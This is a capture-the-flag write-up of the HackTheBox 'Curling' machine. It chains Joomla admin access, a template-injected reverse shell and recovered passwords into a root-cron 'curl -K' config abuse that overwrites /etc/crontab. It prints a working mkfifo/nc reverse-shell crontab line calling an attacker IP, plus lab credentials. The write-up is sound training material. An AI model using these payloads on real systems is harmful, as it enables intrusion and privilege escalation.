

# CURLING


This report walks through the compromise of the **Curling** machine on HackTheBox. Through web enumeration, Joomla admin access, reverse shell execution, and privilege escalation via file manipulation and cron jobs, we achieved full system compromise on this Linux target.

## Reconnaissance and Enumeration

An initial Nmap scan revealed SSH and HTTP services:

```sh
❯ sudo nmap -sC -sV -T4 -oA Scans/nmap/curling 10.129.201.151
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
```

The website on port 80 was running **Joomla**:


Viewing the source of the homepage revealed a hidden file:

```html
<!-- secret.txt -->
```

Navigating to `/secret.txt` returned a Base64 string:


Decoded to:

```sh
❯ echo -n "Q3VybGluZzIwMTgh" | base64 -d
Curling2018!
```

A blog post authored by **Floris** suggested a potential username:



## Joomla Admin Access

Fuzzing directories revealed a login portal at `/administrator`:


Credentials `Floris:Curling2018!` granted access. Although uploading a PHP reverse shell was blocked, disabling the upload restriction setting didn’t help.

Instead, we modified the **Protostar** template’s PHP files to include a reverse shell, then previewed the template to trigger execution:


Reverse shell received:

```sh
❯ nc -lvnp 4444
connect to [10.10.14.89] from [10.129.201.151]
uid=33(www-data) gid=33(www-data)
```

## Password Discovery and SSH Access

Inside the web root, **configuration.php** exposed database credentials:

```php
public $user = 'floris';
public $password = 'mYsQ!P4ssw0rd$yea!';
```

SSH login using this password failed. However, a **password_backup** file was discovered in Floris' home directory containing compressed data.

### Multi-Stage Decompression

1. Data started with BZh9 (bzip2).
2. Decompressed to a gzip archive.
3. Extracted a bzip2 file inside.
4. Extracted a tar archive containing **password.txt**.

Final password:

```txt
5d<wdCbdZu)|hChXll
```

SSH login with `floris:5d<wdCbdZu)|hChXll` succeeded:

```sh
floris@curling:~$ cat user.txt
281d2bc862797f1c4dbe827fe3cda065
```

## Privilege Escalation

Inside **admin-area/**, two files were owned by root but writable by Floris:

```sh
-rw-rw---- 1 root floris input
-rw-rw---- 1 root floris report
```

Monitoring with **pspy** showed root running:

```sh
curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

> **Did You Know? — Curl Config File Exploits**
>
> The `-K` option in `curl` reads from a config file. If the `output` value is set to a **pipe command**, curl will execute it. This allows for command injection if the file is writable.

Initial attempt to execute a reverse shell using `output = "|/bin/bash..."` failed, as the process ran as `www-data`. Instead, we escalated by overwriting **/etc/crontab**.

### Crontab Replacement Attack

A malicious crontab was hosted locally:

```sh
* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.89 4444 >/tmp/f
```

**Input file** modified:

```sh
url = "http://10.10.14.89/crontab"
output = "/etc/crontab"
```

Root fetched and overwrote crontab:

```sh
10.129.201.151 - - [23/Mar/2025 14:44:03] "GET /crontab HTTP/1.1" 200 -
```

One minute later, I gained a reverse shell as root:

```sh
uid=0(root) gid=0(root)
> cat /root/root.txt
692f2756895c539d86769f33e2223a51
```


## Findings and Remediation

### Findings

- **Base64 Leakage**: Credentials exposed via publicly accessible `secret.txt`.
- **Joomla Misconfiguration**: Admin portal exposed with weak credentials.
- **Source Disclosure**: `configuration.php` leaked sensitive info.
- **Insecure File Permissions**: Root-owned files writable by Floris.
- **Curl Config Exploitation**: Used to overwrite crontab and escalate.

### Remediation

- Restrict access to sensitive files and sanitize public source.
- Harden Joomla configurations; enforce strong credentials.
- Use **principle of least privilege** for file ownership and permissions.
- Monitor for misuse of command-line tools with config files.

## Lessons Learned

Curling showcases a chain of vulnerabilities: public credential disclosure, misconfigured CMS, and improper file permissions. Even indirect execution vectors, such as `curl -K`, can become powerful escalation paths when paired with poor access controls.

## Resources

- [HackTheBox - Curling CTF](https://app.hackthebox.com/machines/160)
- [Joomla Security Best Practices](https://docs.joomla.org/Security_Checklist)
- [curl Config File Documentation](https://everything.curl.dev/cmdline/configfile.html)

---

[⬅ Back to Home](/CTF-Reports/)
